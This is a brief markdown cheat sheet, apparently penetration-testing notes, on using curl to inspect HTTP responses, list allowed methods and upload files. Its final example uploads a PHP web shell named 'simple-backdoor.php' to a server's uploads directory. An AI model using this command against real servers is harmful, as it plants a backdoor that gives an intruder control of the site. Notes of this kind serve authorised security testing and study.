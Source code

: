 
## Using curl to modify HTTP requests:

This shows verbose request and corresponding Response

	curl -v <website(IP or domain)> 	


## Choosing HEAD methods to hide the message body just the top headers:

	curl -v -I <IP>


## Show the accepted or supported Request Methods:

	curl -v -X OPTIONS <ip>



## Upload a file to a specific directory on the site that allows uploading:

Template:

	curl <IP>/<directory_where_upload_is_allowed> --upload-file <path_to_file_to_upload>

Example:

	curl 192.164.126.3/uploads/ --upload-file /usr/share/webshells/php/simple-backdoor.php 



